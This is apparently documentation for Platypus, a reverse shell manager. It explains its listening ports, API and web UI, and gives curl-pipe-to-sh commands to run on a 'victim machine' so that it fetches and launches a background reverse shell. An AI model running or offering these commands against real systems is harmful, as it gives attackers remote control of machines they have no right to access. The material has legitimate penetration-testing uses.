 ![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/cli/start.gif)

As you can see, platypus will check for updates, then start listening on port 13337, 13338 and 7331

The three port have different aims.
- 13337 Reverse shell server, which **disallows** the reverse session comes from the IP.
- 13338 Reverse shell server, which **allows** the reverse session comes from the IP.
- 7331 Platypus [RESTful](https://github.com/WangYihang/Platypus/blob/master/doc/RESTful.md) API EndPoint, which allows you to manipulate Platypus through HTTP protocol or [Python SDK](https://github.com/WangYihang/Platypus/blob/master/doc/SDK.md).

If you want another reverse shell listening port, just type `Run 0.0.0.0 1339` or modify the `config.yml`.

Also, platypus will print help information about [RaaS](https://github.com/WangYihang/Platypus/blob/master/doc/RaaS.md) which release you from remembering  tedious reverse shell commands. 

With platypus, all you have to do is just copy-and-paste the `curl` command and execute it on the victim machine.

```bash
curl http://127.0.0.1:13337/|sh
curl http://192.168.88.129:13337/|sh
```

Now, suppose that the victim is attacked by the attacker and a reverse shell command will be executed on the machine of victim.

![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/cli/connect.gif)

> Notice, the RaaS feature ensure that the reverse shell process is running in background and ignore the hangup signal.

## Get start with Web UI

### Manage listening port

![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/webui/add.gif)

### Wait for client connection

![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/webui/wait)

### Popup an interactive shell

![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/webui/shell.gif)

### Upgrade a reverse shell to an encrypted channel (Termite)

![](https://github.com/WangYihang/Platypus/raw/master/docs/zh/docs/images/webui/upgrade.gif)
